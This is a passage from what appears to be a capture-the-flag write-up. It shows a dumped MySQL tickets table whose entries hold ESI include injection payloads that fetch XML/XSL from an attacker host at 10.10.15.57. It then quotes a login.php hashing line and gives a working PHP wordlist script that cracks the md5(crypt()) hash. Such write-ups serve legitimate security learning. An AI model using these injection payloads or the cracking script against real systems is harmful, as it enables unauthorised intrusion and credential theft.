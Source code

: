 ```sql
+--------------+------------------+----------------------------------+
2 rows in set (0.00 sec)
```

I found the users table which potentially had new creds in it, but I wasn't sure what type of hash or encryption had been used on it.

```text
mysql> select * from tickets;
+----------+-----------+------------------------------------------------------------------------------------------------------------------------+--------+
| id       | title     | description                                                                                                            | status |
+----------+-----------+------------------------------------------------------------------------------------------------------------------------+--------+
| TKT-4178 | ping test | "<esi:include src="http://10.10.15.57:9088/evil98.xml" stylesheet="http://10.10.15.57:9088/evil98.xsl"></esi:include>" | open   |
| TKT-4567 | evil      | "<esi:include src="http://10.10.15.57:9088/evil.xml" stylesheet="http://10.10.15.57:9088/evil.xsl"></esi:include>"     | open   |
| TKT-0987 | evil      | "<esi:include src="http://10.10.15.57:9088/evil.xml" stylesheet="http://10.10.15.57:9088/evil.xsl"></esi:include>"     | open   |
| TKT-9876 | evil1     | "<esi:include src="http://10.10.15.57:9088/evil1.xml" stylesheet="http://10.10.15.57:9088/evil1.xsl"></esi:include>"   | open   |
| TKT-8765 | evil2     | "<esi:include src="http://10.10.15.57:9088/evil2.xml" stylesheet="http://10.10.15.57:9088/evil2.xsl"></esi:include>"   | open   |
+----------+-----------+------------------------------------------------------------------------------------------------------------------------+--------+
9 rows in set (0.00 sec)
```

I also found a list of the tickets that I submitted earlier...the lazy admin still hadn't gotten around to helping me with my issues!

![](/assets/img/assets/22-login.php-crypt.png)

for the password "hash" I found, the login.php contained this line which explained it:

```text
$password = md5(crypt($password,'fa'));
```

wrote a script to crack the password using: [https://stackoverflow.com/questions/13246597/how-to-read-a-large-file-line-by-line](https://stackoverflow.com/questions/13246597/how-to-read-a-large-file-line-by-line)

```php
<?php
if ($wordlist = fopen("/home/zweilos/rockyou_utf8.txt", "r")) {
    while ((!feof($wordlist))) {
    $pass = fgets($wordlist);
#    echo "Trying: " . $pass;

    $hash = "e626d51f8fbfd1124fdea88396c35d05";

        $ciphertext = MD5(crypt(trim($pass),'fa'));

        if ($hash == $ciphertext) {
          exit("The password is: " . $pass);
        }  
    }

    fclose($wordlist);

} else {
    exit("Failed to open the wordlist");
}
?>
```